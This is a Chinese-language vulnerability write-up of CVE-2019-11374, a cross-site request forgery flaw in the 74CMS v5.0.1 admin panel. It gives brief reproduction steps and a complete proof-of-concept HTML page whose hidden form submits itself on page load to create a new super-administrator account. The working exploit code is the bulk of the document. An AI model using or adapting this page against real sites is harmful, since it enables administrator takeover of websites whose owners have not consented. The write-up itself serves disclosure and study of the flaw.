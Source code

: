 <h1>（CVE-2019-11374）74cms v5.0.1 后台跨站请求伪造(CSRF)漏洞</h1>
<h2>一、漏洞简介</h2>
<p>在74CMS v5.0.1后台存在一个跨站请求伪造(CSRF)漏洞，该漏洞url：/index.php?m=admin&c=admin&a=add
攻击者可以利用该漏洞诱骗管理员点击恶意页面，从而任意添加一个后台管理员账户，达到进入后台，获得一个后台管理员角色的控制权。</p>
<h2>二、漏洞影响</h2>
<p>74CMS v5.0.1</p>
<h2>三、复现过程</h2>
<p>首先我们登录后台页面，并添加管理员，然后添加信息，用burp_suite抓包</p>
<p>当管理员登录后台后，点击攻击者发来的连接即可创建一个新的超级管理员账户</p>
'''
<!DOCTYPE html>
<html>
  <head>
  <title> CSRF </title>
  <script type="text/javascript">
    function exec1(){
      document.getElementById('form1').submit();
    }
  </script>
  </head>
  <body onload="exec1();">
    <form id="form1" action="https://www.0-sec.org.com/index.php?m=Admin&c=admin&a=add" method="POST">
      <input type="hidden" name="username" value="admin688" />
  <input type="hidden" name="email" value="111111111@qq.com" />
      <input type="hidden" name="password" value="admin688" />
      <input type="hidden" name="repassword" value="admin688" />  
  <input type="hidden" name="role_id" value="1" />
    </form>
  </body>
</html>
'''
<h2>参考链接</h2>
<p>https://www.023niu.com/show-62-32-1.html</p>
